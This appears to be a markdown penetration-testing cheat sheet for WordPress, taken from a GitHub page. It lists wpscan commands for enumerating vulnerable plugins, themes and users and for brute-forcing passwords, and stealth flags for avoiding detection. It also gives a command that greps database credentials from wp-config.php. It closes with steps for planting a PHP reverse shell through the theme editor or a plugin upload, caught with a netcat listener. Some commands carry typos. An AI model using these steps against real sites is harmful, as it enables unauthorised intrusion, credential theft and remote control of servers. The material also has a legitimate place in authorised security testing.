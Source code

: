 ### wpscan 

#### update wpscan 
- wpscna update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"
----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via plugins

- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]



